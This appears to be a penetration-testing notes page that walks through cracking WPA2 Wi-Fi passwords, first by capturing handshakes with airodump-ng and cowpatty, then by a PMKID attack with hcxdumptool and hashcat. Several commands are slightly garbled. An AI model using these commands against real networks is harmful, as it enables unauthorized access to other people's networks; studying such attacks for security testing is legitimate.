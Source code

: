 # Wifi

There are quite a few different security mechanism on wifi. And each of them require a different tactic. This article outlines the different strategies quite well. [http://null-byte.wonderhowto.com/how-to/hack-wi-fi-selecting-good-wi-fi-hacking-strategy-0162526/](http://null-byte.wonderhowto.com/how-to/hack-wi-fi-selecting-good-wi-fi-hacking-strategy-0162526/)

This is a great guide to the many different ways to hack wifi.

### Checking what networks are avalible

`sudo iwlist wlan0 scanning` - scans for wifis

### Hacking WPA2-wifis Using airmon-ng and cowpatty

What we are going to to here it basically just to record the 4-way handshake and then run a dictionary attack on it. The good part about this strategy is that you won't have to interfere to much with the network and thereby risk of taking down their wifi. The bad part is that if you run a dictionary attack there is always the possibility that the password just isn't in the list.

1. Start airmon-ng

   * `airmon-ng start wlan0`
   * This puts the network card in monitoring mode.
   * This will create a network interface that you can use to monitor wifi-action. This interface is usually called mon0 or something like that. You see the name when you run the command.

2. Run airodump to see what is passing through the air

   * Now we want to see what access points are available to us. 
   * `airodump-ng -i mon0`
   * This would output something like this:

```
CH 13 ][ Elapsed: 6 s ]

BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

E8:DE:27:31:15:EE  -62       40       54    0  11  54e  WPA2 CCMP   PSK  myrouter
A7:B6:68:D4:1D:91  -80        7        0    0  11  54e  WPA2 CCMP   PSK  DKT_D24D81
B4:EE:B4:80:76:72  -84        5        0    0   6  54e  WPA2 CCMP   PSK  arrisNetwork

BSSID       STATION            PWR   Rate    Lost    Frames Probe

E8:DE:27:31:15:EE  D8:A2:5E:8E:41:75  -57    0e- 1    537     14
```

So what is all this?  
`BSSID` - This is the mac-address of the access point.  
`PWR` - Signal strength. The higher \(closer to 0\) the strength the stronger is the signal. In the example above it is myrouter that has the strongest signal.  
`Beacon` - This is kind of like a packet that the AP sends out periodically. The beacon contains information about the network. It contains the SSID, timestamp, beacon interval. If you are curious you can just analyze the beacons in wireshark after you have captured them.  
`#Data` - The number of data-packets that has been sent.  
`#/s` - Number of data-packets per second.  
`CH` - Channel  
`MB` - Maximum speed the AP can handle.  
`ENC` - Encryption type  
`CIPHER` - One of CCMP, WRAP, TKIP, WEP, WEP40, or WEP104. Not mandatory, but TKIP is typically used with WPA and CCMP is typically used with WPA2.  
`PSK` - The authentication protocol used. One of MGT \(WPA/WPA2 using a separate authentication server\(RADIUS\)\), SKA \(shared key for WEP\), PSK \(pre-shared key for WPA/WPA2\), or OPN \(open for WEP\).  
`ESSID` - The name of the network

Then we have another section of information.  
`Station` - MAC address of each associated station or stations searching for an AP to connect with. Clients not currently associated with an AP have a BSSID of “\(not associated\)”. So yeah, this basically means that we can see what devices are looking for APs. This can be useful if we want to create an evil twin or something like that.

1. Find the network you want to access.

   * `airodump-ng --bssid A7:B6:68:D4:1D:91 -c 11 -w cowpatty mon0`
   * So this command will record or traffic from the device with that specific MAC-address. -c defines the channel. and `-w cowpatty` means that we are going to save the packet capture with that name. 
     Now we just have to wait for a user to connect to that network. And when he/she does we will record that handshake.
     We know that we have recorded a handshake when this appears
     `CH 11 ][ Elapsed: 19 hours 52 mins ][ 2016-05-19 17:14 ][ WPA handshake: A7:B6:68:D4:1D:91`
     Now we can exit airodump, and we can see that we have a cap-file with the name cowpatty-01.cap. That is our packet-capture, and you can open it and study it in wireshark if you like.

2. Crack the password.

3. Now that we have the handshake recorded we can start to crack it. We can do that by using the program cowpatty.

4. `cowpatty -f /usr/share/wordlists/rockyou.txt -r cowpatty-01.cap -s DKT_D24D81`
   Then we just hope for the best.

## PMKID

The RSN IE is an optional field that can be found in 802.11 management frames. One of the RSN capabilities is the PMKID.

The PMKID is computed by using HMAC-SHA1 where the key is the PMK and the data part is the concatenation of a fixed string label "PMK Name", the access point's MAC address and the station's MAC address.

Since the PMK is the same as in a regular EAPOL 4-way handshake this is an ideal attacking vector.

We receive all the data we need in the first EAPOL frame from the AP.

```
PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
```

**Note: **The following method does not change the time in takes to crack the password, it simply makes the method to obtain the password much easier. Further details are in the hashcat link below.

Why Easier:

* No more regular users required - because the attacker directly communicates with the AP \(aka "client-less" attack\)

* No more waiting for a complete 4-way handshake between the regular user and the AP

* No more eventual retransmissions of EAPOL frames \(which can lead to uncrackable results\)
* No more eventual invalid passwords sent by the regular user
* No more lost EAPOL frames when the regular user or the AP is too far away from the attacker
* No more fixing of nonce and replaycounter values required \(resulting in slightly higher speeds\)
* No more special output format \(pcap, hccapx, etc.\) - final data will appear as regular hex encoded stringairmon-ng check kill

1.\) Run hcxdumptool to request the PMKID from the AP and to dump the received frame to a file \(in pcapng format\).

```
/opt/hcxdumptool/hcxdumptool -o Target.pcapng -i wlan0 --filterlist=TargetBSSID.txt --filtermode=2
```

The TargetSSID.txt files contains the MAC addresses \(BSSIDs\) of the target without colons. Also there is an indicator at the bottom of the interface that states "pwned." This will indicate the number of hashes obtained. It is recommended to have this run for at least 10 minutes.

```
/opt/hcxtools/hcxpcaptool -z Target.16800 Target.pcapng
```

2.\) Run hcxpcaptool to convert the captured data from pcapng format to a hash format accepted by hashcat.

```
 ./hcxpcaptool -z  Target.16800 /opt/hcxdumptool/Target.pcapng
```

This takes in the in capture file, parses it and outputs the format \(16800\) in one that hashcat can interpret.

3.\) Run hashcat to crack it.

```
./hashcat -m 16800 Target.16800 -a 3 -w 3 '?l?l?l?l?l?lt!
```

The above is obviously a simplified version as this can be vastly tailored by information obtained from the target

## Example hash

```
2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf0e761f4*ed487162465a774bfba60eb603a39f3a
```

The columns are the following \(all hex encoded\):

* PMKID

* MAC AP

* MAC Station

* ESSID

## More Info / References

Kicking other people off the network to capture handshakes faster:  
[http://www.aircrack-ng.org/doku.php?id=newbie\_guide](http://www.aircrack-ng.org/doku.php?id=newbie_guide)

[http://lewiscomputerhowto.blogspot.cl/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html](http://lewiscomputerhowto.blogspot.cl/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html)

[http://radixcode.com/hackcrack-wifi-password-2015-step-step-tutorial/](http://radixcode.com/hackcrack-wifi-password-2015-step-step-tutorial/)

[https://hashcat.net/forum/thread-7717.html](https://hashcat.net/forum/thread-7717.html)

